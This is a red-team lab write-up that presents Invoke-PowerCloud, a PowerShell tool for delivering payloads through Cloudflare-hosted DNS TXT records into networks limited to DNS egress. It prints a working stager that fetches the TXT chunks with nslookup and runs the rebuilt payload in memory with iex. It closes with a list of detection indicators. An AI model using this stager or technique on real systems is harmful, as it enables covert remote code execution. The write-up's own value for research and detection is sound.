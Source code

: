 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell ([@domchell](https://twitter.com/domchell)) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you have not done it yet.

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS. \
\
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file and base64 encode it
* Divide the payload into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with authoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows:&#x20;

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-11-03.png>)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-14-53.png>)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```
host -t ns redteam.me
```

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-16-20.png>)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-47-26.png>)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-47-12.png>)

### Animated Demo

Everything in action can be seen in the below gif:

![](../../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs (mix and match) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` (trivial to change/randomize)
* DNS answers are all `TTL = 120` (trivial to change/randomize)
* TXT data in DNS answer has no white spaces (easy to change)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](<../../.gitbook/assets/Screenshot from 2018-10-16 20-12-57.png>)

Spike of `nslookup` for a host in a short amount of time:

![](<../../.gitbook/assets/Screenshot from 2018-10-16 20-17-42.png>)

Below is a sample PCAP for your inspection:

{% file src="../../.gitbook/assets/dns-packets.pcapng" %}
DNS Traffic Packet Trace
{% endfile %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}
